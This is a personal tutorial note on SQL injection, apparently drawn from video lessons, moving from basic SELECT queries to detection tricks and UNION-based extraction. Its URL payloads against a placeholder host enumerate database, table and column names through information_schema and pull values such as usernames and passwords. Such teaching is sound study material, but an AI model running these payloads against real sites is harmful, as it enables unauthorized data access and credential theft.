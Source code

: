 ```yaml
---
title: SQLi By Ahemd Sultan
date: 2025-06-05
description: This is notes i take it from Ahmed Sultan Videos About SQLi.
tags:
- blog
- Notes
- SQL
- SQLi
- tutorial
---
```


## The Most Query Used in SQL is

```sql
SELECT {Column_Name} FROM {Table_Name};

-- For Example --

SELECT * FROM Books;
```

and SELECT used to select and show some data in the table.

Ok, now we are select the table or all table so we can use where to put conditions

```sql
SELECT {Column_Name} FROM {Table_Name} WHERE {Column_Name} = {Condition};

-- For Example --

SELECT * FROM Books WHERE year = 2000;
```

We add logic operations in the queries like

```sql
-- AND --
SELECT * FROM Books WHERE year > 2000 AND sales > 3000;

-- OR --
SELECT * FROM Books WHERE year > 2000 OR sales > 3000;
```

**Note**: In the logic operations, AND condition run in the first and after that OR condition run

You can make Operations in the conditions

```sql
SELECT * FROM Books WHERE year > 1000+1000;
```

So, From that we can check the SQLi in the program

If you enter the in the field ==1000+1000== and the application return for you valid result, so this field has SQLi

You can add the numeric value in single or double cods and SQL will interact with it as numeric value 

```sql
SELECT * FROM Books WHERE year = '2000';
```

 ---

## in the strings, we write the query like this

```sql
SELECT * FROM Books WHERE author = 'Jane Johson';
```

so, we can detect the SQLi with two ways

first way will give us error in the page 

```sql
-- https://fuck.com/books?author_name=jane johson'"
-- so that we be in the query

SELECT * FROM Books WHERE author = 'Jane Johson''";
```

second way will give us valid value in the page

```sql
-- https://fuck.com/books?author_name=jane joh' 'son
-- so that we be in the query

-- in different databases you can add two strings to make one word
-- 'Jane Joh' 'son' --> 'Jane Johson' (MySQL, mariaDB)
-- 'Jane Joh'||'son' --> 'Jane Johson' (postgreSQL, Oracle)
-- 'Jane Joh'+'son' --> 'Jane Johson' (SQL Server)

SELECT * FROM Books WHERE author = 'Jane Joh' 'son';
```


---

```sql
-- https://fuck.com/books?author_name=jane johson' and 1=1-- -
-- so that we be in the query

SELECT * FROM Books WHERE author = 'Jane Johson' AND 1=1-- -;
```

this way will be good with comments, but some times can't work because there are some conditions after the comment (--) so the query won't work

```sql
-- https://fuck.com/books?author_name=jane johson' and 1=1-- -
-- so that we be in the query

SELECT * FROM Books WHERE (author = 'Jane Johson' AND 1=1-- -' AND sales > 1000) AND (year > 2004);
```

so, this query gives error because ==(== isn't closed with ==)==

we can use our mind and try to complete this query like

```sql
-- https://fuck.com/books?author_name=jane johson' and 1='1
-- so that we be in the query

SELECT * FROM Books WHERE author = 'Jane Johson' AND 1='1';
```

so, in this query the =='1'== will convert to integer and can you compare with another integer

there is another way to make the comment and some of the times we can use it to make spaces in the query like the payloads 

```sql
-- with this /* Hello World */

SELECT * FROM Books WHERE/**/author/**/='Jane Johson' AND 1='1';
```


---

So, now after we discover the SQLi and ensure this field has this bug.
We need to get impact from this bug.
So we can use ==union== in the query to execute another query with the main query like 

```sql
SELECT title, author from Books UNION SELECT user, passwoed from crad;
```

```sql
SELECT title, 'book' AS item_type FROM Books UNION SELECT user, 'username' AS item_type FROM crad;
```

There is problem in the ==union== in the query.
If before ==union== has 3 attributes, so after ==union== should have 3 attributes

```sql
SELECT title, author, year from Books UNION SELECT email, user, passwoed from crad;
```

So in the real target, you won't know the number of the attributes before ==union==.
So, we can use ==ORDER BY== to detect the number of columns OR attributes in the query.
==ORDER BY== used to re-rank the values in the columns from min to max OR max to min.

```sql
--  number 5 refer to the column number 5

SELECT * FROM Books ORDER BY 5 DESC;
```

```sql
SELECT title, author, year FROM Books WHERE year > 2005 ORDER BY 3 DESC;
```

This will give us true value because there are three attributes ==(title, author, year)== and the ORDER is 3,So that's true

```sql
SELECT title, author, year FROM Books WHERE year > 2005 ORDER BY 4 DESC;
```

This will give us false value because there are three attributes ==(title, author, year)== and the ORDER is 4,So that's false

---

```sql
-- https://fuck.com/books?year=-2005 union select 1, (SELECT database()), 3 -- -

SELECT title, author, year FROM Books WHERE year = -2005 UNION SELECT 1, (SELECT database()), 3-- -;
```

After we know the attributes, we use ==union== to exploit this bug like above.

OK, now we want to know the tables of the database

```sql
-- https://fuck.com/books?year=-2005 union select 1, (SELECT table_name from information_schema.tables where table_schema=database() limit 0,1), 3 -- -

SELECT title, author, year FROM Books WHERE year = -2005 UNION SELECT 1, (SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 0,1), 3-- -;
```

OK, now we want to know the columns of the table

```sql
-- https://fuck.com/books?year=-2005 union select 1, (SELECT column_name from information_schema.columns where table_schema=database() and table_name='Books' limit 0,1), 3 -- -

-- you can use the table name only in this query

SELECT title, author, year FROM Books WHERE year = -2005 UNION SELECT 1, (SELECT column_name from information_schema.columns where table_schema = database() and table_name='Books' limit 0,1), 3-- -;
```

OK, now we want to know the values of the columns

```sql
-- https://fuck.com/books?year=-2005 union select 1, (SELECT concat(title,0x0a,author) from Books limit 2,1), 3 -- -

-- concat() use to add two values or more with the same place or cell

SELECT title, author, year FROM Books WHERE year = -2005 UNION SELECT 1, (SELECT concat(title,0x0a,author) FROM Books LIMIT 2,1), 3-- -;
```



